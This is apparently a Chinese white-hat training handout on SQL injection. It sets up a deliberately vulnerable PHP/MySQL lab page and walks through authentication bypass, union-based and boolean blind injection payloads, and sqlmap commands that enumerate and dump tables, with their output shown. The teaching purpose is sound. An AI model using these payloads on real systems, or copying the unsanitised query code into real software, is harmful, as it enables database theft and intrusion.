# 米斯特白帽培训讲义 漏洞篇 SQL 注入

> 讲师：[gh0stkey](https://www.zhihu.com/people/gh0stkey/answers)
> 
> 整理：[飞龙](https://github.com/)
> 
> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 原理与危害

SQL 注入就是指，在输入的字符串中注入 SQL 语句，如果应用相信用户的输入而对输入的字符串没进行任何的过滤处理，那么这些注入进去的 SQL 语句就会被数据库误认为是正常的 SQL 语句而被执行。

恶意使用 SQL 注入攻击的人可以通过构建不同的 SQL 语句进行脱裤、命令执行、写 Webshell、读取度武器敏感系统文件等恶意行为。


以上来自乌云的案例，都是利用 SQL 注入所造成的一系列危害。

## 成因

首先来看这一段代码（视频中不是这段代码，因为其更适合讲解，所以用这段代码）：

```
$un = @$_POST['un'];
$pw = @$_POST['pw'];

// ...

$sql = "select * from user where un='$un' and pw='$pw'";
```

可以看到代码首先从 HTTP 主体取得`un`和`pw`两个参数，这两个参数显然未加过滤。之后代码将其拼接到 SQL 语句中。

如果恶意用户将`un`指定为任意正常内容，`pw`为非正常内容，那么就有被攻击的风险。比如我们将`un`赋为`admin`，`pw`赋为`' or '1'='1`。则整个 SQL 语句会变为：

```
select * from user where un='admin' and pw='' or '1'='1'
```

可以看到`where`子句对于任何用户都是恒成立的。那么我们就成功绕过了它的身份验证。

## 环境搭建（补充）

视频中的程序我找不到，所以还是自己搭个靶场演示吧，但是步骤是一样的。关于数据库环境我想说一下，不同数据库使用不同的配置和 SQL 方言，一个数据库上有用的方法不一定能用在另一个数据库上。但是，目前 70% 的网站都使用 MySQL，所以这篇讲义只会涉及 MySQL。

大家可以下载 DVWA 在本地建立实验环境，如果觉得麻烦，可以自己写个脚本来建立。这里教给大家如何在本地建立实验环境。

首先要在任意数据库创建一张表，插入一些数据：

```
drop table if exists sqlinj;
create table if not exists sqlinj (
    id int primary key auto_increment,
    info varchar(32)
);
insert into sqlinj values (1, "item #1");
```

这里我们创建了`sqlinj`表，并插入了一条数据。其实插入一条数据就够了，足以查看显示效果。

之后我们将以下内容保存为`sql.php`：

```
<form method="GET" action="">
    ID：
    <input type="text" name="id" />
    <input type="submit" value="查询" />
</form>
<?php
// 改成自己机子上的配置：
$host = '';
$port = 3306;
$un = '';
$pw = '';
$db = '';

$id = @$_GET['id'];
if($id == '')
    return;
$conn = @mysql_connect($host . ':' . $port, $un, $pw);
if(!$conn)
    die('数据库连接错误：' . mysql_error());
mysql_select_db($db, $conn);
$sql = "select id, info from sqlinj where id=$id";
$res = mysql_query($sql, $conn);
if(!$res)
    die('数据库错误：'. mysql_error());
$num = mysql_num_rows($res);
if($num == 0)
{ 
    echo "<p>ID：$id</p>";
    echo "<p>无此记录</p>";
}
else
{
    $row = mysql_fetch_row($res);
    echo "<p>ID：$id</p>";
    echo "<p>Info：${row[1]}</p>";
}
mysql_close($conn);
```

在文件目录下执行`php -S 0.0.0.0:80`，然后访问`http://localhost/sql.php`，然后就可以进行各种操作了。

## 手工注入：基于回显

基于回显的意思就是页面中存在显示数据库中信息的地方，通过注入我们就能把我们要查询的东西显示在页面上。一般页面中显示相关信息（比如帖子标题、内容）就能认为是基于回显的。

### 判断注入点

我们将`id`设为`1 and 1=1`，发现正常显示。



将`id`设为`1 and 1=2`，显示“无此记录”。



那么这里就很可能出现注入点。

### 判断列数量

我们下一步需要判断查询结果的列数量，以便之后使用`union`语句。我们构造：

```
id=1 order by ?
```

其中问号处替换为从 1 开始的数字，一个一个尝试它们。直到某个数字 N 报错，那么列数为 N - 1。

例如我这里，先尝试 1，没有报错：



尝试 2 也没有报错，然后尝试 3 的时候：


出现了错误，说明列数是 2。

### 确定显示的列

我们可以构造语句了：

```
1 and 1=2 union select 1,2
```


显示位置为 2 号位，而且只有一个显示位置。

### 查询用户及数据库名称

在 MySQL 中，`current_user`函数显示用户名称，`database`函数显示当前数据库名称。这里只有一个显示位置，为了方便起见，我们可以使用`concat`函数一次性显示出来。

```
1 and 1=2 union select 1,concat(current_user(),' ',database())
```


可以看到这里的用户名称是`root`，数据库名称是`test`。如果在真实场景下遇到，基本就可以断定是 root 权限了。

### 查询表的数量

MySQL 中有一个数据库叫做`information_schema`，储存数据库和表的元信息。`information_schema`中有两个重要的表，一个叫`tables`，储存表的元信息，有两列特别重要，`table_schema`是所属数据库，`table_name`是表名称。另一个表示`columns`，储存列的源信息，`table_name`列是所属表名称，`column_name`列是列名称。

```
1 and 1=2 union select 1,count(table_name) from information_schema.tables where table_schema=database()
```


这里我们使用`count`函数查询出了表的数量，一共七个。这里我们只查询当前数据库，如果要查询全部，可以把`where`子句给去掉。

### 查询表名

因为它只能显示一条记录，我们使用`limit`子句来定位显示哪一条。`limit`子句格式为`limit m,n`，其中`m`是从零开始的起始位置，`n`是记录数。我们构造：

```
1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit ?,1
```

我们需要把问号处换成 0 ~ 6，一个一个尝试，七个表名称就出来了。比如，我们获取第一个表的名称。


它叫`email`，在真实场景下，这里面一般就是一部分用户信息了。如果第一个表示无关紧要的信息，可以继续寻找。

### 查询列数量

与表数量的查询类似，我们需要把所有`table`换成`column`。我们构造：

```
1 and 1=2 union select 1,count(column_name) from information_schema.columns where table_name='email'
```


一共有两个。

### 查询列名

我们把`count`去掉，加上`limit`，就出来了：

```
1 and 1=2 union select 1,column_name from information_schema.columns where table_name='email' limit ?,1
```

同样，我们需要把问号替换为 0 和 1；


我们这里查询结果为，第一列叫做`userid`，第二列叫做`email`。

### 查询行数量

```
1 and 1=2 union select 1, count(1) from email
```


### 查询记录

```
1 and 1=2 union select 1,concat(userid,' ',email) from email limit ?,1
```

我们把问号替换为 0 和 1，就得到了所有的数据。


## 手工注入：基于布尔值

在一些情况下，页面上是没有回显的。也就是说，不显示任何数据库中的信息。我们只能根据输出判断是否成功、失败、或者错误。这种情况就叫做盲注。

比如说，我们把上面的代码改一下，倒数第三行改为：

```
echo "<p>存在此记录</p>";
```

这样我们就不能通过`union`把它显示到页面上。所以我们需要一些盲注技巧。这种技巧之一就是基于布尔值，具体来说就是，如果我们想查询整数值，构造布尔语句直接爆破；如果想查询字符串值，先爆破它的长度，再爆破每一位。

### 查询用户及数据库名称

基于布尔的注入中，判断注入点的原理是一样的。确定注入点之后我们直接查询用户及数据库名称（当然也可以跳过）。由于这种情况下所有查询都特别复杂，所以我们只选取其中一个，比如数据名称。

首先爆破数据库名称的长度，我们构造：

```
1 and (select length(database()))=?
```

问号处需要替换为数字，从 1 开始，直至出现正确的信息。为了简化操作，这里我们可以使用 Burp 了。



它的长度为 4，这里我们再构造：

```
1 and (select substr(database(),$1,1))=$2
```

我们需要把`$1`替换成 1 ~ 4 的整数（`substr`从 1 开始），把`$2`替换成 a ~ z 、 0 ~ 9 以及`_`的 ASCLL 十六进制（SQL 不区分大小写）。这里我们最好把这些十六进制值存成一个列表，便于之后使用。

之后开始爆破（类型选择`cluster bomb`，第一个 payload 选择`number`，第二个 payload 选择`preset lists`）：



我们通过查表得知，结果为`test`。

## 查询表的数量

```
1 and (select count(table_name) from information_schema.tables where table_schema=database())=?
```

问号处替换为从一开始的数字。我们可以看到，数量为 7。



## 查询表名

我们这里演示如何查询第一个表的表名。

首先查询表名长度。

```
1 and (select length(table_name) from information_schema.tables where table_schema=database() limit 0,1)=?
```

问号处换成从 1 开始的整数。长度为 5：


之后，再爆破每个字符。

```
1 and (select substr(table_name,$1,1) from information_schema.tables where table_schema=database() limit 0,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。



查表可得，结果为`email`。

## 查询列数量

我们下面演示查询`email`表的列数。

```
1 and (select count(column_name) from information_schema.columns where table_name='email')=?
```

问号处替换为从一开始的数字。我们可以看到，数量 2。



## 查询列名称

作为演示，我这里查询第二列（`limit 1,1`）的名称。

首先需要查询其长度：

```
1 and (select length(column_name) from information_schema.columns where table_name='email' limit 1,1)=?
```

问号处换成从 1 开始的整数。长度为 5：



之后爆破每个字符：

```
1 and (select substr(column_name,$1,1) from information_schema.columns where table_name='email' limit 1,1)=$2
```

`$1`配置为 1 ~ 5的整数，`$2`的配置为上面的列表。



结果是`email`。

## 查询行数量

```
1 and (select count(1) from email)=?
```

问号处替换为从一开始的数字。我们可以看到，数量为 2。



## 查询记录

我们这里演示如何查询第一条记录的`email`列。

首先是长度：

```
1 and (select length(email) from email limit 0,1)=?
```

问号处替换为从一开始的数字。我们可以看到，长度为 17。



之后爆破每个字符：

```
1 and (select substr(email,$1,1) from email limit 0,1)=$2
```

`$1`配置为 1 ~ 17的整数，`$2`的配置为所有可见字符的十六进制 ascll 值（0x20 ~ 0x7e）。

这个时间有些长，就不演示了。

## SqlMap

### 下载

安装 Python 之后，执行

```
pip install sqlmap
```

然后

```
C:\Users\asus> sqlmap
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.1#pip}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

Usage: sqlmap [options]

sqlmap: error: missing a mandatory option (-d, -u, -l, -m, -r, -g, -c, -x, --wizard, --update, --purge-output or --dependencies), use -h for basic or -hh for advanced help

Press Enter to continue...
```

### 判断注入点

直接使用`-u`命令把 URL 给 SqlMap 会判断注入点。

```
sqlmap -u http://localhost/sql.php?id=
```

要注意这样 sqlmap 会判断所有的动态参数，要指定某个参数，使用`-p`：

```
sqlmap -u http://localhost/sql.php?id= -p id
```

结果：

```
[*] starting at 12:05:40

[12:05:40] [WARNING] provided value for parameter 'id' is empty. Please, always use only valid parameter values so sqlmap could be able to run properly
[12:05:40] [INFO] testing connection to the target URL
[12:05:41] [INFO] heuristics detected web page charset 'utf-8'
[12:05:41] [INFO] testing if the target URL is stable
[12:05:42] [INFO] target URL is stable
[12:05:44] [INFO] heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')
[12:05:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n]
```

sqlmap 报告了参数`id`可能存在注入。

如果参数在 HTTP 正文或者 Cookie 中，可以使用`--data <data>`以及`--cookie <cookie>`来提交数据。

### 获取数据库及用户名称

`--dbs`用于获取所有数据库名称，`--current-db`用于获取当前数据库，`--current-user`获取当前用户。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id --current-db

...

[12:10:44] [INFO] fetching current database
[12:10:54] [INFO] retrieved: test
current database:    'test'
[12:10:54] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:10:54
```

### 获取表名

`-D`用于指定数据库名称，如果未指定则获取所有数据库下的表名。`--tables`用于获取表名。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test --tables

...

[12:13:25] [INFO] fetching tables for database: 'test'
[12:13:28] [INFO] the SQL query used returns 7 entries
[12:13:30] [INFO] retrieved: email
[12:13:32] [INFO] retrieved: history
[12:13:34] [INFO] retrieved: iris
[12:13:36] [INFO] retrieved: message
[12:13:38] [INFO] retrieved: result
[12:13:40] [INFO] retrieved: sqlinj
[12:13:42] [INFO] retrieved: test_table
Database: test
[7 tables]
+------------+
| email      |
| history    |
| data       |
| message    |
| result     |
| sqlinj     |
| test_table |
+------------+

[12:13:42] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:13:42
```

### 获取列名

`-T`用于指定表名，`--columns`用于获取列名。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test -T email --columns

... [12:15:02] [INFO] fetching columns for table 'email' in database 'test'
[12:15:04] [INFO] the SQL query used returns 2 entries
[12:15:06] [INFO] retrieved: userid
[12:15:08] [INFO] retrieved: varchar(16)
[12:15:11] [INFO] retrieved: email
[12:15:14] [INFO] retrieved: varchar(32)
Database: test
Table: email
[2 columns]
+--------+-------------+
| Column | Type        |
+--------+-------------+
| email  | varchar(32) |
| userid | varchar(16) |
+--------+-------------+

[12:15:30] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:15:30
```

### 获取记录

`--dump`用于获取记录，使用`-C`指定列名的话是获取某一列的记录，不指定就是获取整个表。

```
C:\Users\asus> sqlmap -u http://localhost/sql.php?id= -p id -D test -T email --dump

...

[12:16:59] [INFO] fetching columns for table 'email' in database 'test'
[12:16:59] [INFO] the SQL query used returns 2 entries
[12:16:59] [INFO] resumed: userid
[12:16:59] [INFO] resumed: varchar(16)
[12:16:59] [INFO] resumed: email
[12:16:59] [INFO] resumed: varchar(32)
[12:16:59] [INFO] fetching entries for table 'email' in database 'test'
[12:17:01] [INFO] the SQL query used returns 2 entries
[12:17:04] [INFO] retrieved: test2@example.com
[12:17:06] [INFO] retrieved: 123
[12:17:08] [INFO] retrieved: wizard.z@qq.com
[12:17:10] [INFO] retrieved: 233837063867287
[12:17:10] [INFO] analyzing table dump for possible password hashes
Database: test
Table: email
[2 entries]
+-----------------+-------------------+
| userid          | email             |
+-----------------+-------------------+
| 123             | test2@example.com |
| 233837063867287 | test@example.com  |
+-----------------+-------------------+

[12:17:10] [INFO] table 'test.email' dumped to CSV file 'C:\Users\asus\.sqlmap\output\localhost\dump\test\email.csv'
[12:17:10] [INFO] fetched data logged to text files under 'C:\Users\asus\.sqlmap\output\localhost'

[*] shutting down at 12:17:10
```

## 文本型注入点

上面我们一直在讲解数值型注入点，如果我们把 SQL 语句

```
$sql = "select id, info from sqlinj where id=$id";
```

改为

```
$sql = "select id, info from sqlinj where id='$id'";
```

那么在测试的时候就会出现`1=1`和`1=2`都存在的情况。




这时我们就不知道它是过滤了还是真的有注入点。所以我们可以修改参数，用一个单引号闭合前面的引号，再用一个注释符号（`#`或者`--`）来注释掉后面的引号：

```
1' and 1=1 #
1' and 1=2 #
1' order by ? #
...
```

## 附录

*   [The SQL Injection Knowledge Base](http://www.websec.ca/kb/sql_injection)

*   [新手指南：DVWA-1.9全级别教程之SQL Injection](http://www.freebuf.com/articles/web/120747.html)

*   [新手指南：DVWA-1.9全级别教程之SQL Injection(Blind)](http://www.freebuf.com/articles/web/120985.html)

*   [SqlMap用户手册](http://blog.csdn.net/wizardforcel/article/details/50695931)

*   [sqlmap用户手册(续)](http://blog.csdn.net/mydriverc2/article/details/41390319)

*   [MySQL 手工注入常用语句](http://blog.csdn.net/wizardforcel/article/details/59480461)

*   [Kali Linux Web 渗透测试秘籍 第六章 利用 – 低悬的果实](http://www.jianshu.com/p/bd3daa312fe5)

*   [Kali Linux Web 渗透测试秘籍 第七章 高级利用](http://www.jianshu.com/p/f671bc45b7f1)